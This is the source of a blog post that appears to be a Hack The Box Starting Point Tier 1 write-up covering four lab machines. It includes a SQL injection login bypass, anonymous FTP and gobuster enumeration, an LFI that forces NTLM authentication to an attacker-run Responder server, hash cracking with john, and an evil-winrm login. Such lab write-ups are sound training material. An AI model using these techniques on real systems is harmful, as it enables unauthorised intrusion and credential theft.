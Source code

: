 ```yaml
---
layout: post
title: 'HTB | Tier 1'
permalink: /ctf/htb/starting-point/tier-1/
---
```


# Appointment
## Connection
We can search the IP in the navbar to get a website.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_1.jpg" weight="100%" />

We will try a basic sql-injection, login with the user:
{% highlight bash %}
' or '1'='1' #
{% endhighlight %}
For the password we just need to write a letter.

## Flag
The flag will be in front of us.

---

# Sequel
## Connection
We will use mysql to connect, with the **root** user.
{% highlight bash %}
> mysql -u root -h 10.129.220.35
{% endhighlight %}

## Flag
Now we are in, we just need to list all the databases and search for the flag.
{% highlight mysql %}
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
{% endhighlight %}

---

# Crocodile
## Connection
We will connect with ftp and the user **anonymous**. There we can download two files, with users and passwords.
{% highlight bash %}
> ftp 10.129.122.93
{% endhighlight %}
With **gobuster** we can check for others files in the webpage, and we can see a **login.php**:
{% highlight bash %}
>  gobuster dir -u http://10.129.122.93/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php
{% endhighlight %}

## Flag
We will have now this page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_2.jpg" weight="100%" />
With the **admin** login we can enter and get our flag.

--- 

# Responder
### Enumeration
Nmap:
{% highlight plain %}
#Nmap 7.92 scan initiated Sat Apr 30 10:43:29 2022 as: nmap -p- -T5 -oN nmap2 10.129.212.41
Nmap scan report for 10.129.212.41
Host is up (0.054s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
7680/tcp open  pando-pub

#Nmap done at Sat Apr 30 10:45:10 2022 -- 1 IP address (1 host up) scanned in 101.42 seconds
{% endhighlight %}

##### We need to add the IP with the domain to access the webpage.

### Explotation
We found a <a href="{{ "/notes/web/lfi-rfi/" | prepend: site.baseurl }}">LFI</a> in the page.
Then we can start a **Samba** server and forces the page to load it:
{% highlight bash %}
> sudo responder -I tun0 -A
{% endhighlight %}
And then:
{% highlight plain %}
http://unika.htb/index.php?page=//10.10.15.167/kali
{% endhighlight %}

This will give us the password encrypted. With **john** we can decode it:
{% highlight bash %}
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2
{% endhighlight %}
##### We can found all the previosly hashes in **/usr/share/responder/logs/Responder-Session.log**.

Finally we can exploit **winrm** and get the flag:
{% highlight bash %}
> evil-winrm -i 10.129.212.41 -u Administrator -p badminton
{% endhighlight %}

### Flag
Finally we can get the flag in the **Desktop**.
